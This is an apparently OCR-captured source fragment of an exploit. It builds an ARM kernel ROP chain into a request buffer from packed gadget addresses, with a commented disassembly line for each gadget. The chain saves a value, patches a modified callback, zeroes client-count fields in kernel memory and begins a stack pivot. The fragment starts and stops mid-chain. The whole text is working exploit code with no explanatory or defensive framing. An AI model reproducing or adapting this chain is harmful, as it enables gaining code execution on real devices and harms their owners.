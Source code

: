```
# | 0xc04a28e0 | c04a28e0 | str r0,[r7,#0xdc] | c04a28e8 | blx r5 | <- save the r0 value into writable location

## need to fix up the callback we've modified, so just add 4 to it (this can probs be improved need better gadgets)
# 0xc006b11c | ldmia sp!,{r4,pc}
request += p32(0xc0218bd8) # r4
request += p32(0xc0341af4) # pc

# | 0xc0341af4 | c0341af4 | cpy r0,r4 | c0341af8  | ldmia sp!,{r4,r11,pc} | 
request += p32(0xc05460e0) # r4
request += p32(0xc09afebc + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4 | blx r4 | 

## need to fix up the client count thing (0xc09b10ec to 0, 0xC09B1184 to 0, 0xC09B121C to 0, C09B12B4 to 0)
# | 0xc05460e0 | c05460e0 | mov r0,#0x0 | c05460e4 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B1184 - 0xc) # r5
request += p32(0xc09b10ec + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 |

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B12B4 - 0xc) # r5
request += p32(0xC09B121C + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 | 

## Now we need to stack pivot

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc09ae8d4) # r4 <- address of our stored stack pointer
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
request += p32(0xc01fefbc) # pc

# | 0xc01fefbc | c01fefbc | ldr r0,[r4,#0x0] | c01fefc0 | ldmia sp!,{r4,r5,r6,r7,r11,pc} | 
request += p32(0xdeadbeef) # r4
request += p32(0xc08e6de0 - 0x30) # r5 <- pointer to amount to sub from loaded stack pointer
request += p32(0xc046a980) # r6 <- change for add (0xc046a980) or sub (0xc01133bc)
request += p32(0xdeadbeef) # r7
request += p32(0xdeadbeef) # r11
request += p32(0xc0570e14) # pc

# need to increment r0

# | 0xc0570e14 | c0570e14 | ldr r4,[r5,#0x30] | c0570e18 | blx r6 | 

# | 0xc046a980 | c046a980 | add r0,r0,r4 | c046a984  | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xdeadbeef) # r4
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
request += p32(0xc01bbd80) # pc

# | 0xc01bbd80  | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
request += p32(0xc021ff38) # r4 <- we get this gadget to set the sp from our r11 and load registers from our new stack
```